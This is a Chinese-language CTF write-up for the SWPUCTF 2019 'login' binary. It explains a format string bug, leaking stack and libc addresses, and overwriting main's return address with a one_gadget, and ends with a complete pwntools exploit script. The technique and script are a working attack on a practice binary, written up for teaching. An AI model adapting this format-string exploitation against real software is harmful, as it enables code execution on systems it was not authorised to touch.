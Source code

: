 检查保护

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01932510680c4205ba.png)

got表可改

IDA分析

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01090b1425458c2b4c.png)

存在格式化字符串漏洞，不过格式化字符串在bss段上，最多能输入0x32个字节

因为输入wllmmllw能够退出程序，所以考虑修改main函数的返回地址为onegadget

[![](https://p4.ssl.qhimg.com/t011b71f643441ebc36.png)](https://p4.ssl.qhimg.com/t011b71f643441ebc36.png)

通过%6$p和%15$p泄露栈地址和libc地址

然后修改005c处的栈链指向main函数的返回地址，也就是0050处

修改之前

[![](https://p3.ssl.qhimg.com/t01b068aa32231fbbee.png)](https://p3.ssl.qhimg.com/t01b068aa32231fbbee.png)

修改之后

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t011a8101b12de45e01.png)

然后就可以修改mian函数的返回地址了，onegadget和返回地址有三个字节不同，所以需要先修改两字节，然后再将栈链+2，继续修改剩下的一字节

exp如下：

```
from pwn import *
context.log_level = 'debug'
io = process("./SWPUCTF_2019_login")
libc=ELF('./libc-2.27_x86.so')
io.sendlineafter("name: ", 'a')

payload = '%6$p-%15$p'
io.sendlineafter("password: ", payload)
io.recvuntil("0x")
ret_addr = int(io.recv(8), 16)+36
io.recvuntil("0x")
libc_base = int(io.recv(8), 16)-libc.symbols['__libc_start_main']-241
onegadget=libc_base+0x3d0e0
log.success('ret_addr =&gt; `{``}`'.format(hex(ret_addr)))
log.success('libc_base =&gt; `{``}`'.format(hex(libc_base)))
log.success('onegadget =&gt; `{``}`'.format(hex(onegadget)))

payload='%'+str(ret_addr&amp;0xffff)+'c%22$hn'
#gdb.attach(io)
io.sendlineafter("Try again!\n", payload)
payload='%'+str(onegadget&amp;0xffff)+'c%59$hn'

io.sendlineafter("Try again!\n", payload)
payload='%'+str((ret_addr+2)&amp;0xff)+'c%22$hhn'
io.sendlineafter("Try again!\n", payload)
payload='%'+str((onegadget&gt;&gt;16)&amp;0xffff)+'c%59$hhn'

io.sendlineafter("Try again!\n", payload)
io.sendlineafter("Try again!\n", 'wllmmllw')
io.interactive()
```